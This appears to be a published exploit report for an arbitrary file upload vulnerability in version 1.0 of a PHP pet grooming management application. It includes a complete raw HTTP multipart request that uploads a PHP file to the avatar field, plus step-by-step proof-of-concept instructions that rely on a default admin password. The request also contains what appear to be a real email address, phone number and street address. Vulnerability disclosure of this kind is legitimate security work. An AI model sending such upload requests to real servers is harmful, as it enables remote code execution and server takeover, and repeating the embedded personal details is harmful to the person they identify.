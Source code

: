 

# Pet grooming management software  - Arbitrary File Upload

#### Exploit Title: Pet grooming management software - Arbitrary File Upload

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: [https://www.sourcecodester.com](https://www.sourcecodester.com/)

#### Software Link:https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

#### Version: Pet grooming management software 1.0

#### Tested on: Windows 10, Apache ,Mysql

#### Description

Pet grooming management software has an arbitrary file upload vulnerability. In the upload avatar function, due to insufficient filtering of file suffixes, attackers can exploit this vulnerability to gain server privileges by uploading malicious files.

#### Payload used:

```POST /login.php HTTP/1.1
POST /admin/profile.php HTTP/1.1
Host: 192.168.67.28:8021
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://192.168.67.28:8021/admin/profile.php
Cookie: PHPSESSID=nn7i1gq9g3c5789ch9hgs6nogg
Cache-Control: max-age=0
Origin: http://192.168.67.28:8021
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVGAiR4ALFtG8cq4R
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 1376

------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="old_website_image"

2.jpg
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="website_image"; filename="111.php"
Content-Type: text/plain

<?php phpinfo(); ?>
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="fname"

Mayuri
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="lname"

K
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="dob"

K
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="email"

mdkhairnar92@gmail.com
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="gender"

Male
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="contact"

+919529230459
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="username"

mayurik
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="address"

Pawfect Grooming Studio,Shop No. 9, Bella Vista Arcade, Banjara Hills,Hyderabad, Telangana – 500034                                                                                                                                                                  
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="update"


------WebKitFormBoundaryVGAiR4ALFtG8cq4R--
```

#### Proof of Concept

1、Log in to the system using the default password mdkhairnar92@gmail.com: admin

2、Upload the file and capture the package at the avatar upload location

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpage.png)

3、Modify the website_image to the PHP malicious file we are about to upload

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpayload.png)

4、After sending the request packet, the file can be accessed on the page, and the PHP file has been parsed, displaying information related to PHPINfo.


![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadfile.png)

5、Pet-grooming-management-software

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/code.png)
